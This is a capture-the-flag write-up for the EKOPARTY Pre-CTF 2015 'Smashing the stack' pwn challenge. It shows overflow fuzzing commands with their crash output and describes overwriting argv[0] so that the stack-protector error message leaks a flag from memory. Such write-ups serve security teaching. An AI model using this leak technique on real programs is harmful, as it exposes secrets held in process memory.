

# EKOPARTY PRE-CTF 2015: Smashing the stack for fun and profit

**Category:** Pwning
**Points:** 100
**Solves:** 69
**Description:**

> nc challs.ctf.site 20001 

>[pwn100](pwn100.zip)

## Write-up

This writeup is based on following writeups:

* <https://ctf-team.vulnhub.com/eko-party-pre-ctf-2015-smashing-the-stack-for-fun-and-profit/>
* <https://github.com/ByteBandits/writeups/blob/master/ekoparty-pre-ctf-2015/pwn/smashing-the-stack-for-fun-and-profit/sudhackar/README.md>
* <https://github.com/dqi/ctf_writeup/tree/master/2015/ekoparty_pre-ctf/pwn/pwn100>
* <https://www.securifera.com/blog/2015/09/23/ekoparty-pre-ctf-smashing-the-stack-for-fun-and-profit/>

### Meta

Keywords:

* Stack Overflow
* Stack Smashing Protector Memory Leak [Source](http://seclists.org/bugtraq/2010/Apr/243)
* Canary

We are given a x86-64bit non-stripped ELF for Linux, zipped:

```bash
$ file ./xpl
xpl: ELF 64-bit LSB  executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=1856a84cc2663caa91e1511a2f0691652201fb95, not stripped
```

We have to provide a flag file named `flag.txt` in order to run it: `echo "EKO{pwning_stack_protector}" > flag.txt `.

Running it:

```bash
$ ./xpl
Interesting data loaded at 0x7fffd209a1e0
Your username? hello
```

We receive an address and can input a username.

Decompiling main using `radare2`:



We can see the following:

* `putenv` sets 'LIBC_FATAL_STDERR_=1'
* The content of `flag.txt` is read with `fgets` into the stack at `rbp-0x110` using size `0x20`
* The pointer to this input buffer is printed to us using `__printf`
* Our username input is read into `rbp-0x90` with size `0x400` using `read` - This causes a stack overflow
* A stack canary check is called at `__stack_chk_fail`

With this in mind, we try to trigger a `SIGSEGV`. Our input has to be at least `0x130` (`sub rsp, 0x130`) plus `0x8` (`push rbp`) bytes long.

We start testing various input lengths in manual binary search to find interesting patterns:

```bash
$ p -c 'print "A"*0x130' | ./xpl
Interesting data loaded at 0x7fff92f891e0
Your username? *** stack smashing detected ***: ./xpl terminated
Aborted (core dumped)

$ p -c 'print "A"*0x200' | ./xpl 
Interesting data loaded at 0x7fff35f3c2b0
Your username? Segmentation fault (core dumped)

$ p -c 'print "A"*0x1b0' | ./xpl 
Interesting data loaded at 0x7fff7061bff0
Your username? Segmentation fault (core dumped)

$ p -c 'print "A"*0x160' | ./xpl 
Interesting data loaded at 0x7fff41fed390
Your username? *** stack smashing detected ***: ./xpl terminated
Aborted (core dumped)

$ p -c 'print "A"*0x180' | ./xpl 
Interesting data loaded at 0x7fffe93c0d40
Your username? Segmentation fault (core dumped)

$ p -c 'print "A"*0x170' | ./xpl 
Interesting data loaded at 0x7fffa9202d80
Your username? *** stack smashing detected ***: ./xpl terminated
Aborted (core dumped)

$ p -c 'print "A"*0x178' | ./xpl 
Interesting data loaded at 0x7fffaf92d6d0
Your username? *** stack smashing detected ***:  terminated
Aborted (core dumped)

$ p -c 'print "A"*0x174' | ./xpl 
Interesting data loaded at 0x7fff524293b0
Your username? *** stack smashing detected ***: ./xpl terminated
Aborted (core dumped)

$ p -c 'print "A"*0x176' | ./xpl 
Interesting data loaded at 0x7fffc44993b0
Your username? *** stack smashing detected ***: ./xpl terminated
Aborted (core dumped)

$ p -c 'print "A"*0x177' | ./xpl 
Interesting data loaded at 0x7fffee2d14f0
Your username? *** stack smashing detected ***: ./xpl terminated
Aborted (core dumped)

$ p -c 'print "A"*0x178' | ./xpl 
Interesting data loaded at 0x7fff2a131a20
Your username? *** stack smashing detected ***:  terminated
Aborted (core dumped)

$ p -c 'print "A"*0x179' | ./xpl 
Interesting data loaded at 0x7fffbe5440d0
Your username? *** stack smashing detected ***:  terminated
Aborted (core dumped)

$ p -c 'print "A"*0x17a' | ./xpl 
Interesting data loaded at 0x7fff9f21abf0
Your username? Segmentation fault (core dumped)
```

We can see that beginning at `0x178`, the stack smashing output does not contain the program name and disappears in it's entirety at `0x17a`.

As it turns out, this stack smashing detection technique (known as [Fortify](https://securityblog.redhat.com/2014/03/26/fortify-and-you/)) can be exploited.

As [this writeup](https://github.com/ByteBandits/writeups/blob/master/ekoparty-pre-ctf-2015/pwn/smashing-the-stack-for-fun-and-profit/sudhackar/README.md) hints, [this bugtraq](http://seclists.org/bugtraq/2010/Apr/243) shows that by overwriting argv[0] (which is the program name and used by fortify in the error message) wiht a known pointer to interesting memory data, it will print out this otherwise secret memory data instead of the program name.

[This python script]() tries various offsets for the argv[0] address until finding the correct one at offset `0x176` == `376`:

```bash
$ p solve.py 
[+] Started program './xpl'
[*] Leaked Buffer Addr: 0x7fff8774bc50
[+] Recieving all data: Done (0B)
[*] Program './xpl' stopped with exit code -11
[ 372 ]: 
[+] Started program './xpl'
[*] Leaked Buffer Addr: 0x7fff98b86300
[+] Recieving all data: Done (0B)
[*] Program './xpl' stopped with exit code -11
[ 373 ]: 
[+] Started program './xpl'
[*] Leaked Buffer Addr: 0x7fffabd54120
[+] Recieving all data: Done (0B)
[*] Program './xpl' stopped with exit code -11
[ 374 ]: 
[+] Started program './xpl'
[*] Leaked Buffer Addr: 0x7fffd6f46f40
[+] Recieving all data: Done (0B)
[*] Program './xpl' stopped with exit code -11
[ 375 ]: 
[+] Started program './xpl'
[*] Leaked Buffer Addr: 0x7fff5a11db40
[+] Recieving all data: Done (73B)
[*] Program './xpl' stopped with exit code -6
[ 376 ]: *** stack smashing detected ***: EKO{pwning_stack_protector}
 terminated
```

The flag is `EKO{pwning_stack_protector}`.

## Other write-ups and resources

* <https://ctf-team.vulnhub.com/eko-party-pre-ctf-2015-smashing-the-stack-for-fun-and-profit/>
* <https://github.com/ByteBandits/writeups/blob/master/ekoparty-pre-ctf-2015/pwn/smashing-the-stack-for-fun-and-profit/sudhackar/README.md>
* <https://github.com/dqi/ctf_writeup/tree/master/2015/ekoparty_pre-ctf/pwn/pwn100>
* <https://www.securifera.com/blog/2015/09/23/ekoparty-pre-ctf-smashing-the-stack-for-fun-and-profit/>
* [Spanish](http://rmolina.co/2015/09/prectf-ekoparty-2015.html)
